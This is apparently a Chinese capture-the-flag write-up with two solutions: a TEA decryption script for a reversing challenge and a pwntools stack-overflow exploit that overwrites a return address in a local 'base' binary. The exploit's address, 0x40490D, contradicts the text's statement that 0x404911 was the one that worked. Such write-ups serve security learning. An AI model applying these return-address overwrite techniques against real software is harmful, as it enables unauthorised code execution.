

## babyre

解混淆后：

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
	...
    v11 = 0;
    printf("Plz input your flag:");
    v9[0] = 0x87654321DEADBEEFLL;
    v9[1] = 0xCAFEBABEFACEB00CLL;
    fgets(s, 50, MEMORY[0]);
    memcpy(dest, &unk_400E90, 0x48uLL);
    v7 = (strlen(s) + 3) >> 2;
    ptr = malloc(8LL * v7);
    for ( i = 0; i < v7; ++i )
    {
        memset(&v4, 0, sizeof(v4));
        LODWORD(v4) = *(_DWORD *)&s[4 * i];
        encode(32LL, &v4, v9);
        *((_QWORD *)ptr + i) = v4;
    }
    for ( i = 0; ; ++i )
    {
        if ( i >= 2 * v7 )
        {
            printf("Congratulations\n");
            free(ptr);
            return 0;
        }
        if ( *((_DWORD *)ptr + i) != dest[i] )
            break;
    }
    printf("Error\n");
    return 0;
}
```

提示了TEA，就直接脚本解了：

```Python
import struct  
result = [0x72, 0x86, 0x8F, 0x16, 0x24, 0xD8, 0xDB, 0x02, 0xCA, 0x7F, 0x64, 0xCF, 0xEF, 0xA7, 0xEF, 0xE6, 0xF0, 0x16, 0xE0, 0x4A, 0x1D, 0x2E, 0x83, 0xC5, 0x05, 0x0A, 0x5C, 0x45, 0x40, 0x81, 0xEB, 0xFF, 0xEF, 0x61, 0x95, 0xBE, 0x23, 0x9E, 0x81, 0x7F, 0x69, 0x42, 0xC0, 0x3B, 0x5B, 0x82, 0x8B, 0xC6, 0xF0, 0xB1, 0xA5, 0xE6, 0xBD, 0xCB, 0x03, 0xBD, 0x0E, 0xCE, 0xB3, 0xA9, 0xE7, 0xE6, 0x85, 0x6C, 0xEF, 0x71, 0x5C, 0x9F, 0x57, 0xBD, 0xE4, 0x3B]
key = [0x87654321DEADBEEF, 0xCAFEBABEFACEB00C]
result = list(struct.unpack('<18I', bytearray(result)))
key = struct.pack('<2Q', *key)
key = list(struct.unpack('<4I', key))
flag = []  
def tea_dec(cipher, key):  
    num = (-0x61C88647 * 32) & 0xFFFFFFFF  
    for i in range(32):  
        cipher[1] -= ((((cipher[0] >> 5) ^ (cipher[0] << 4)) + cipher[0]) & 0xffffffff) ^ ((key[(num >> 11) & 3] + num) & 0xFFFFFFFF)  
        cipher[1] &= 0xFFFFFFFF  
        num = (num + 0x61C88647) & 0xFFFFFFFF  
        cipher[0] -= ((((cipher[1] >> 5) ^ (cipher[1] << 4)) + cipher[1]) & 0xffffffff) ^ ((key[num & 3] + num) & 0xFFFFFFFF)
        cipher[0] &= 0xFFFFFFFF  
    return cipher  

content = []  
for i in range(0, len(result), 2):  
    content += tea_dec(result[i:i + 2], key)  
for i in range(len(content)):  
    flag += struct.pack('<I', content[i])  
print(bytearray(flag).replace(b'\x00', b''))
print(bytearray(flag).replace(b'\x00', b'').decode())
# DASCTF{Don't_forget_to_drink_tea}
```

## ezbase

栈溢出：

```C
__int64 sub_404986()
{
	......
    sub_4D8C40("This is a easy and joy de/en base64 elf");
    sub_4D8C40("You have two choices: \n1:encode\n2:decode");
    sub_454520(qword_5C85E0, &v8);
    memset(str_input, 0, sizeof(str_input));
    LODWORD(v6) = 0;
    if ( v8 == 1 )
    {
        sub_4D1670("cin de_str:");
        scanf(qword_5C85E0, output_);
        sub_404245(output_, str_input);
        v1 = sub_470BC0(qword_5C84C0, str_input, v0);
        sub_46F650(v1, sub_470510);
    }
    if ( v8 == 2 )
    {
        sub_4D1670("cin en_str:");
        scanf(qword_5C85E0, str_input);
        sub_404635(str_input, output_);
        v3 = sub_470BC0(qword_5C84C0, output_, v2);
        sub_46F650(v3, sub_470510);
    }
    return 0LL;
}
```

改变返回地址到这，不知道为啥`0ex40490d`不行，用的`0x404911`：



EXP：

```Python
from pwn import *

sh = process('./base')
sh.recvuntil(b'2:decode')
sh.sendline(b'1')
sh.recvuntil(b'cin de_str:')
payload = b'1234' * 8 + b'\x00' * 8 + p64(0x40490D)
sh.sendline(payload)
sh.interactive()
sh.close()
```
